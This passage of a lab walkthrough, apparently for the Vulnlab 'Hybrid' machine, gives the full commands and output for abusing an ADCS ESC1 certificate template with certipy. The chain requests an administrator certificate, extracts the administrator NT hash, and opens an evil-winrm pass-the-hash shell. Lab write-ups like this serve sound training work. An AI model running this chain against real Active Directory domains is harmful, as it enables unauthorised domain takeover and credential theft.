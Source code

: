 Since now we have `hash` for `mail01`, we can request certificate as `mail01` and abuse `ESC1` to gain administrative privileges in domain
```
└─$ certipy req -u 'mail01$'@hybrid.vl -hashes '<REDACTED>' -dc-ip 10.10.165.181 -ca hybrid-DC01-CA -template HybridComputers -upn administrator -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Now we can get administrator's hash and login with `evil-winrm` 
```
└─$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.165.181                                                                         
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@hybrid.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```
```
└─$ evil-winrm -u Administrator -H <REDACTED> -i 10.10.165.181
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

https://api.vulnlab.com/api/v1/share?id=e5f9d721-b099-44a3-9c60-987ba5af90fa